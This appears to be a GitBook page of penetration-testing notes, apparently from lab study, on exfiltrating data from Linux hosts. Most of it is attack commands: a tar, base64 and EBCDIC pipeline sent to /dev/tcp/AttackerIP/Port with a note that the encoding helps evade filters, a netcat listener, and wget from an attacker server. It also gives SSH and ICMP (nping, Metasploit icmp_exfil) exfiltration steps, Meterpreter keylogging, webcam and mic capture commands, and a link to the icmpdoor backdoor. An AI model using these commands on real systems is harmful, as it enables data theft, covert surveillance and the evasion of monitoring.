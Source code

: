# Linux

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.

{% hint style="warning" %}
Essenitly we zip the file we want to transfer.The data we transfer must be the directory
{% endhint %}

After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## ICMP Exfiltration

1\) Attacker setup  to recive packets

```
msf auxiliary icmp_exfil
```

2\) Upload nping binaries to victim

```
/usr/bin/nping
```

python server,wget command

next give perms&#x20;

3\) On victim machine sending data to icmp\_exfil

<pre class="language-bash"><code class="lang-bash"><strong>./nping --icmp -c 1 attackerip --data-string "filename.txt"
</strong></code></pre>

`-c` → how many ICMP packets (or TCP/UDP depending on mode) to send.Just how many times we want to send the request default is 10

4\) Tell metasploit to stop reciveing files

```
nping --icmp -c 1 attackerip --data-string "EOF"
```

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
